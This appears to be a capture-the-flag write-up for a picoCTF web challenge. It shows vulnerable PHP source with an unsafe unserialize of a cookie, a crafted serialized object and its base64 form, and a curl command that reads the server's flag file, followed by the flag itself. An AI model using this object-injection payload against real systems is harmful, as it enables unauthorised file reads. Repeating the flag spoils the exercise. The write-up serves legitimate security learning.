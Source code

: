 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Try to recover the flag stored on this website http://mercury.picoctf.net:42449/

# Solution
- Going to robots.txt shows that admin.phps is disallowed 
<img src="https://i.imgur.com/5SCkbac.png">

=>  This indicates that the phps extension is enabled within the php configuration for this webserver
- We try access index.phps :
<img src="https://i.imgur.com/8iekRpF.png">

- The above php code points us in the direction of authentication.phps
<img src="https://i.imgur.com/2OSnjQl.png">

- View cookie.phps
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
- Focus : ```$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])))```
=> I think of the unserialize vulnerability
Read [it](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection#:~:text=The%20vulnerability%20occurs%20when%20user-supplied%20input%20is%20not,PHP%20object%20%28s%29%20injection%20into%20the%20application%20scope)
- Based on the code:
```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
=> The php serialized access_log object looks like this: 
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
(base hint : The flag is at ../flag)
- Encode base64
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
- I  access the authentication.php file with the correct cookie set: 
```
curl http://mercury.picoctf.net:42449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
```
- Results:
```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}
```

> Flag :**picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}**